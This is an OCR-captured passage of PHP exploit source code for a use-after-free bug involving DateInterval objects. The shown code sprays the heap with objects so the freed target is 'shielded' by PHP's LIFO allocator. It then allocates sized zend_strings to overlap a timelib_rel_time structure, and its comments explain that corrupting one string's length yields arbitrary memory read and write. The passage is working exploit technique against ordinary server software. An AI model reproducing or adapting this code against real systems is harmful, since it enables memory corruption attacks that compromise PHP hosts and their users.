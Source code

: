             # allocated in the object's previous memory regions, which might pose
            # problems for the rest of the exploitation.
            # To avoid this, we allocate a lot of objects before the UAF, and free
            # them afterwards. Since PHP's heap is LIFO, when we create other vars,
            # they will take the place of those objects instead of the object we
            # are triggering the UAF on. This means our object is "shielded" and
            # we don't have to worry about breaking it.
            $room = [];
            for($i=0;$i<10;$i++)
                $room[] = new Z();

            # Build string meant to fill old DateInterval's timelib_rel_time
            # I: ptr2str's name is unintuitive here: we just want to allocate a
            # zend_string of size 78.
            $_protector = ptr2str(0, 78);

            o('  Allocating $abc and $p');

            # Create ABC
            # I: This is the variable we will use to R/W memory afterwards.
            # After we free the Z object, we'll make sure abc is overwritten by a
            # timelib_rel_time structure under our control. The first 8*8 = 64 bytes
            # of this structure can be modified easily, meaning we can change the
            # size of abc. This will allow us to read/write memory after abc.
            $this->abc = ptr2str(0, 79);
